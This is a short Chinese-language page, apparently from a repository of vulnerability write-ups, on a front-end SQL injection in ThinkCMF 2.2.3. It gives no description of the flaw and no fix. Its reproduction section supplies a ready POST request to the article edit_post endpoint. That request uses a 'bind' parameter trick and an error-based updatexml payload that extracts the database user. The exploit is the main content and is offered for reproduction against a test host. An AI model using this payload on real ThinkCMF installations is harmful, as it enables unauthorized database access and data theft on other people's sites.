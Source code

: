 ```yaml
---
title: "THINKCMFX_2.2.3漏洞合集"
id: zhfly3139
---
```


# ThinkCMF 2.2.3 漏洞合集

## 一、漏洞简介

## 二、漏洞影响

ThinkCMF 2.x

## 三、复现过程

### 0x01 前台用户文章编辑提交存在注入

#### 0x01.1 漏洞演示

```
前台的文章编辑中操作框架注入，所以可以直接sql注入
url:http://thinkcmf.test/index.php?g=Portal&m=Article&a=edit_post
post:
term:123
post[post_title]:123
post[post_title]:aaa
post_title:123
post[id][0]:bind
post[id][1]:0 and (updatexml(1,concat(0x7e,(select user()),0x7e),1)) 
```

![image](../img/bd59f32d2703c257be816139a5591406.png)
